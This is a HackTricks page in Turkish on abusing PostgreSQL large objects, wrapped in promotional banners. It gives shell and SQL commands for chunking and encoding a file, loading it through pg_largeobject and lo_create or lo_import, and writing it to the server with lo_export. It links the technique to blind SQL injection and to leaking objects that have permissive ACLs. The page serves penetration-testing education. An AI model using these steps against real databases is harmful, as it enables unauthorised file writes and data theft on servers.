 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Büyük Nesneler

PostgreSQL, büyük veri türlerini, örneğin resimler veya PDF belgeleri gibi, depolamak için tasarlanmış **büyük nesneler** olarak bilinen bir yapı sunar ve bu nesnelere `pg_largeobject` tablosu aracılığıyla erişilir. Bu yaklaşım, **verilerin dosya sistemine geri aktarımını** sağladığı için `COPY TO` işlevine göre avantajlıdır ve orijinal dosyanın tam bir kopyasının korunmasını garanti eder.

Bu tabloda **tam bir dosya depolamak** için, `pg_largeobject` tablosunda bir nesne oluşturulmalı (bir LOID ile tanımlanır) ve ardından bu nesneye her biri 2KB boyutunda veri parçaları eklenmelidir. Bu parçaların tam olarak 2KB boyutunda olması (son parçanın istisna olabileceği durumlar hariç) önemlidir, böylece dışa aktarma işlevi doğru çalışır.

**İkili verilerinizi** 2KB parçalarına **bölmek için** aşağıdaki komutlar çalıştırılabilir:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Her dosyayı Base64 veya Hex'e kodlamak için aşağıdaki komutlar kullanılabilir:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Önemli**: Bu süreci otomatikleştirirken, 2KB'lık açık metin baytları parçaları göndermeyi garanti edin. Hex kodlu dosyalar, boyutun iki katına çıkması nedeniyle her parça için 4KB veri gerektirecektir, Base64 kodlu dosyalar ise `ceil(n / 3) * 4` formülünü takip eder.

Büyük nesnelerin içeriği, hata ayıklama amaçları için şu şekilde görüntülenebilir:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

İkili verileri depolamak için önce bir LOID oluşturulur:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
Hassas kontrol gerektiren durumlarda, örneğin Blind SQL Injection istismarında, sabit bir LOID belirtmek için `lo_create` tercih edilir.

Veri parçaları daha sonra şu şekilde eklenebilir:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Büyük nesneyi kullanımdan sonra dışa aktarmak ve potansiyel olarak silmek için:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### `lo_import` ve Hex Kullanımı

`lo_import` fonksiyonu, büyük bir nesne için bir LOID oluşturmak ve belirtmek için kullanılabilir:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Oluşturma işleminden sonra, her sayfa için veri eklenir ve her parça 2KB'yi aşmaz:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Veri aktarımını tamamlamak için, veriler dışa aktarılır ve büyük nesne silinir:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

**Büyük nesnelerin ACL'leri** (Erişim Kontrol Listeleri) olabileceği belirtilmiştir, bu da kullanıcı tarafından oluşturulan nesnelere bile erişimi kısıtlayabilir. Ancak, izin verici ACL'lere sahip eski nesneler hala içerik sızdırma için erişilebilir olabilir. 

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
